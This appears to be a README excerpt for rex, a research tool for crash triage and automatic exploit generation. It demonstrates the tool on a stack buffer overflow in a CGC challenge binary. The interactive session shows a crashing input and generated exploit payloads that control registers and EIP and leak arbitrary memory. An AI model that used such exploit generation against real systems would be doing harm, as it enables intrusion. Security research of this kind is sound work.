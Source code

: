 ### Rex

At the moment rex offers two main features, crash triaging and exploitation for certain kinds of crashes.

In the example below, we take a crashing input for `0b32aa01_01` discovered by AFL. The vulnerability is a simple buffer overflow on the stack.

Exploit objects can take an exploitable crashing input and will attempt to turn it into an exploit which can set every register and leak data from an arbitrary address.

```python
>>> crash = rex.Crash("../binaries/cgc_scored_event_1/cgc/0b32aa01_01", "\x05\x00\xff\xff\x80\xff\xff\xff\x80\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xff\xff\x80\xf1\xf1\xf1\xeb\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\x00\xde\x7f\xff\x80\xff\xff\xff\x80\x0f\xff\xff\xff~\xf3\xff\xff\xff\xff\x7f\xff\xff\x80\xff\xff\xfe\xff\t\xfe\xfe\xfe\xfe\xfe\nWelc\xfeme to(Palindrome Fiwder\n\n\xff\xff\xff\xff\x80\xff\xff\xe8\x80\x0f\xff\xff\xff\x7f#\n")
>>> crash.exploitable()
True
>>> exploit = crash.exploit()
>>> # create an input which populates ebx with 0x41414141 and crashes with eip at 0x58585858
>>> exploit.set_register("ebx", 0x41414141, final_ip=0x58585858) 
'\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xff\x00\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x8e\x81\x04\x08\x00\x00\x00\x00\x84\xc5EIAAAAXXXX\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
>>> exploit.leak_address(0x8048530, 0x1000)
'\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\xff\xff\x00\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x8e\x81\x04\x08\x00\x00\x00\x00a\x84\x04\x08\x00\x10\x00\x000\x85\x04\x08\x01\x00\x00\x00A\x84\x04\x08\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
```
